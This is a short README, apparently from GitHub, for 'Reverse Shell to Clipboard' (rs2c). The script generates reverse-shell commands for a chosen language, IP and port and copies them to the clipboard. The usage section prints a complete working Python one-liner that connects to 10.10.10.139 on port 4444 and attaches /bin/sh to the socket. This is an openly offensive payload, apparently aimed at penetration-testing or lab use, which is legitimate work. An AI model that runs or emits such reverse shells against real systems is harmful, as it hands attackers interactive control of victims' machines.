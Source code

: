 # Reverse Shell to Clipboard

Reverse Shell to Clipboard is a tool that will facilitate the task of creating a reverse shell according to the programming language you need.
## Installation

You can use it directly as a sh or for quick access you can copy into
/usr/local/bin


## Usage

If you don't have it copied to /usr/local/bin you will have to use it as ./rs2c inside the folder where it is hosted.
If you have it copied to /usr/local/bin you can use it from any folder with rs2c command.
```bash
$ rs2c python 10.10.10.139 4444
>[*] Reverse shell copied to clipboard 
```
If you now paste it with Ctrl + Shift + v you will see the following
```bash
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.10.139',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);' 
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

